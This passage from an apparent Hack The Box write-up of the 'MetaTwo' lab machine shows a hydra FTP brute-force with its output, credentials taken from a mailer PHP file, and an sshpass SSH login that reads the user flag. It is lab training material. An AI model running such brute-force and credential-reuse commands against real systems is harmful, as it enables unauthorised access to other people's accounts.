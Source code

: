## TCP/21 (FTP) - Bruteforce
1. Bruteforce FTP w/ `hydra`
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/exploit]
	└─# hydra -L usernames.txt -P passwords.txt ftp://metapress.htb -I
	Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
	
	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-29 09:30:51
	[DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries (l:4/p:3), ~1 try per task
	[DATA] attacking ftp://metapress.htb:21/
	[21][ftp] host: metapress.htb   login: metapress.htb   password: 9NYS_ii@FyL_p5M2NvJ
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-29 09:31:03
	```
	> Valid Credential
	> - `metapress.htb:9NYS_ii@FyL_p5M2NvJ`
	{: .prompt-info}


## TCP/21 (FTP) - Creds Found
1. Next, we use [`FileZilla`](https://filezilla-project.org/download.php) so that we can navigate FTP with ease
2. Download `mailer` directory
	![]({{ page.img_path }}Pasted%20image%2020221129101508.png)
3. Found a set of valid credential in `send_mail.php`
	![]({{ page.img_path }}Pasted%20image%2020221129101644.png)
> Valid Credential
> - `jnelson:Cb4_JmWM8zUZWMu@Ys`
{: .prompt-info}


## TCP/22 (SSH)
1. Successfully SSH w/ `jnelson:Cb4_JmWM8zUZWMu@Ys`
	```
	┌──(root💀kali)-[~/htb/metatwo/10.10.11.186/ftp/metapress.htb]
	└─# sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb
	Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64
	
	The programs included with the Debian GNU/Linux system are free software;
	the exact distribution terms for each program are described in the
	individual files in /usr/share/doc/*/copyright.
	
	Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
	permitted by applicable law.
	Last login: Mon Nov 28 23:11:36 2022 from 10.10.14.103
	jnelson@meta2:~$ ls
	gpg.john  gzipped.tar.gz  pass  user.txt  wp-config.php  -z
	jnelson@meta2:~$ cat user.txt
	a78b080b1bf04536906f33fa36723af2
	jnelson@meta2:~$
	```
